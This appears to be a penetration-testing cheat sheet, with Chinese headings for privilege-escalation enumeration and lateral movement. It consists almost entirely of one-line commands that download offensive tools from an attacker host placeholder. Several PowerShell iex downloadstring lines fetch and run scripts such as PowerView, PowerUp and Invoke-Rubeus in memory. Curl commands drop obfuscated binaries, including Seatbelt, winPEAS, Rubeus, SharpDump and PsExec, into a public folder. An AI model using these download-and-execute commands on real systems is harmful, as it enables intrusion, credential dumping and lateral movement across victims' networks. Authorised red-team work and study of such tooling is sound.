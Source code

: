__PowerView.ps1__

```
iex ((new-object net.webclient).downloadstring('http://{ip}/tools/ps1/PowerView.ps1')) 
```


> 提权枚举

__Seatbelt__
```
curl http://{ip}/obf/Seatbelt.exe -o C:\Users\Public\Seatbelt.exe
```

__SharpUp__

```
curl http://{ip}/obf/SharpUp.exe -o C:\Users\Public\SharpUp.exe
```

__winPEAS__
```
curl http://{ip}/obf/winPEAS.exe -o C:\Users\Public\winPEAS.exe
```

__HostRecon.ps1__

```
iex ((new-object net.webclient).downloadstring('http://{ip}/tools/ps1/HostRecon.ps1'))
```

__LAPSToolkit.ps1__

```
iex ((new-object net.webclient).downloadstring('http://{ip}/tools/ps1/LAPSToolkit.ps1')) 
```

__PowerUp.ps1__

```
iex ((new-object net.webclient).downloadstring('http://{ip}/tools/ps1/PowerUp.ps1')) 
```

> 横向移动

__Rubeus__

```
curl http://{ip}/obf/Rubeus.exe -o C:\Users\Public\Rubeus.exe

iex ((new-object net.webclient).downloadstring('http://{ip}/tools/ps1/Invoke-Rubeus.ps1')) 
Invoke-Rubeus -Command "xxxxxx"
```

__SharpDump.exe__

```
curl http://{ip}/obf/SharpDump.exe -o C:\Users\Public\SharpDump.exe
```

__PsExec64.exe__

```
curl http://{ip}/tools/PsExec64.exe -o C:\Users\Public\PsExec64.exe
```
